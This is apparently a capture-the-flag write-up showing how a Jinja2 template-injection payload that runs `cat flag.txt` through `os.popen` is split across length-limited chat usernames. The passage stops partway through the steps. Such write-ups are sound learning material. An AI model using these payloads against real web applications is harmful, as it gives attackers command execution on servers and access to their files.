 To exploit the SSTI vulnerability and retrieve the flag, our goal was to make the rendered chat log look like:

```python
{{cycler.__init__.__globals__.os.popen('cat flag.txt').read()}}
```

Since we control both `username` and `message`, we can't just split the payload across two users/messages:

- `username1 = {{cycler.__init__.__globals__.os.popen('cat flag.txt`
- `message1 = dummy`
- `username2 = '[:12]).read()}}`
- `message2 = dummy`

Since we will hit the len(`username`) > 14 condition. We need to find another approach.

We can split our payload into smaller parts by using variables:

```python
{%set a=cycler%}
{%set b=a.__init__%}
{%set c=b.__globals__%}
{%set d=c.os%}
{%set e=d.popen%}
{%set f='cat flag.txt'%}
{%set g=e(f)%}
{%set h=g.read%}
{{h()}}
```

Since we need to produce the above payload without hitting the constraint of len(`username`) > 14:

`{%set a=cycler%}`
- `username1 = {%set a=['`
- `message1 = dummy`
- `username2 = ',cycler][1]%}`
- `message2 = dummy`

`{%set b=a.__init__%}`
- `username3 = {%set b=a['`
- `message3 = dummy`
- `username4 = __init__`
- `message4 = dummy`
- `username5 = '[11:19]]%}`
- `message5 = dummy`

`{%set c=b.__globals__%}`
- `username6 = {%set c=b['`
- `message6 = dummy`
- `username7 = __globals__`
- `message7 = dummy`
- `username8 = '[11:22]]%}`
- `message8 = dummy`

`{%set d=c.os%}`
- `username9 = {%set d=c['os`
- `message9 = dummy`
- `username10 = '[:2]]%}`
- `message10 = dummy`
